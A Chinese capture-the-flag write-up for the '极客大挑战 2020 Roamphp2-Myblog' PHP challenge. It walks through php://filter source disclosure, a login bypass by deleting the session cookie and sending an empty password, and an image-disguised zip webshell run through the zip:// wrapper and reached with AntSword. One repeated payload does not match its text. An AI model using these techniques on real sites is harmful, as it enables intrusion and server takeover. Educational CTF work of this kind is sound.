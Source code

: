```yaml
---
title: '[极客大挑战 2020]Roamphp2-Myblog'
date: 2024-11-05 15:27:54
tags: zip伪协议
categories: 刷题笔记
---
```


## [极客大挑战 2020]Roamphp2-Myblog

我们注意到到我们点击链接时，url的page的值都会随着改变，我们猜测这里存在文件包含

我们用伪协议读取看看

```
?page=php://filter/read=convert.base64-encode/resource=login.php
```

![image-20241105154543416](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202411051545496.png)

啥都没有，我们观察url的page传的值都是没有后缀的，我们把php后缀删掉

```
?page=php://filter/read=convert.base64-encode/resource=login.php
```

发现了base64，我们进行解码

```php
<?php
require_once("secret.php");
mt_srand($secret_seed);
$_SESSION['password'] = mt_rand();
?>
 密码是个随机值
```

同样的操作我们查看home，secret，

home.php 就一些html代码，没啥看的

secret.php

```php
<?php
$secret_seed = mt_rand();
?>
```

emmm，没找到啥有用的，我们到login页面看看

我们发现了个admin/user页面

![image-20241105155759039](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202411051557079.png)

我们查看一下

![image-20241105155821720](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202411051558750.png)

提示我们用户名或密码不正确

那我们直接查看源码，把html源码省略了

```php
<?php
error_reporting(0);
session_start();
$logined = false;
if (isset($_POST['username']) and isset($_POST['password'])){
	if ($_POST['username'] === "Longlone" and $_POST['password'] == $_SESSION['password']){  // No one knows my password, including myself
		$logined = true;
		$_SESSION['status'] = $logined;
	}
}
if ($logined === false && !isset($_SESSION['status']) || $_SESSION['status'] !== true){
    echo "<script>alert('username or password not correct!');window.location.href='index.php?page=login';</script>";
	die();
}
?>
```

```php
<?php
		if(isset($_FILES['Files']) and $_SESSION['status'] === true){
			$tmp_file = $_FILES['Files']['name'];
			$tmp_path = $_FILES['Files']['tmp_name'];
			if(($extension = pathinfo($tmp_file)['extension']) != ""){
				$allows = array('gif','jpeg','jpg','png');
				if(in_array($extension,$allows,true) and in_array($_FILES['Files']['type'],array_map(function($ext){return 'image/'.$ext;},$allows),true)){
						$upload_name = sha1(md5(uniqid(microtime(true), true))).'.'.$extension;
						move_uploaded_file($tmp_path,"assets/img/upload/".$upload_name);
						echo "<script>alert('Update image -> assets/img/upload/${upload_name}') </script>";
				} else {
					echo "<script>alert('Update illegal! Only allows like \'gif\', \'jpeg\', \'jpg\', \'png\' ') </script>";
				}
			}
		}
	  ?>
```

我们注意到password使用session里的password里面找[(13条消息) php之$_SESSION的理解_勤于总结，学会分享-CSDN博客](https://blog.csdn.net/zhengxijia2012/article/details/73437376)

如果我们把session全删了之后，那么传进去的密码就不会是Longlone的密码了，没有cookie就找不到是哪个用户，那服务端存档

$_SESSION['password'])也就为空了，那我们只需要也传一个空密码按道理就可以绕过了。

```
if ($_POST['username'] === "Longlone" and $_POST['password'] == $_SESSION['password']){  // No one knows my password, including myself
```

但当我们把cookie删掉后，直接登录优惠提示必须填写密码

![image-20241105160712696](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202411051607737.png)

我们猜测前端把密码设置为了必填项

我们删了就行

![image-20241105160812578](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202411051608611.png)

然后我们成功进入了admin/user界面

![image-20241105160923657](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202411051609727.png)

接着我们查看上传文件的代码

```php
  <?php
		if(isset($_FILES['Files']) and $_SESSION['status'] === true){
			$tmp_file = $_FILES['Files']['name'];
			$tmp_path = $_FILES['Files']['tmp_name'];
			if(($extension = pathinfo($tmp_file)['extension']) != ""){
				$allows = array('gif','jpeg','jpg','png');
				if(in_array($extension,$allows,true) and in_array($_FILES['Files']['type'],array_map(function($ext){return 'image/'.$ext;},$allows),true)){
						$upload_name = sha1(md5(uniqid(microtime(true), true))).'.'.$extension;
						move_uploaded_file($tmp_path,"assets/img/upload/".$upload_name);
						echo "<script>alert('Update image -> assets/img/upload/${upload_name}') </script>";
				} else {
					echo "<script>alert('Update illegal! Only allows like \'gif\', \'jpeg\', \'jpg\', \'png\' ') </script>";
				}
			}
		}
	  ?>
```

我们可以看到，代码设置了白名单，我们可以传一句话木马上去，而且成功的话他会告诉我们上传的路径，然后再用之前的page参数解析伪协议，那我们怎么上传呢

我们想到可以利用将php文件打包成zip，然后改后缀为jpg，然后用zip伪协议进行读取。zip协议可以解压jpg后缀的压缩包的

我们开始构造：

![image-20241105162140067](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202411051621144.png)

上传成功

![image-20241105162324817](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202411051623856.png)

```python
Update image -> assets/img/upload/79b117c154c02c073f75af99a60e5a8f92c1bbfe.jpg
```

我们用zip伪协议读取一下

> zip:// + zip路径 + %23 + php文件名 (由于#在get请求中会将后面的参数忽略所以使用get请求时候应进行url编码为%23)
>
> 这里不加.php后缀是因为在index.php包含的时候默认加上了，还要注意zip协议后面跟的是./因为没有去看绝对路径。
>
> ![image-20241105163925480](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202411051639525.png)

```html
?page=zip://./assets/img/upload/79b117c154c02c073f75af99a60e5a8f92c1bbfe.jpg%2312
```

我们用蚁剑进行连接

得到flag

![image-20241105164000874](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202411051640907.png)

如果蚁剑连不上，可以post传参进行命令执行
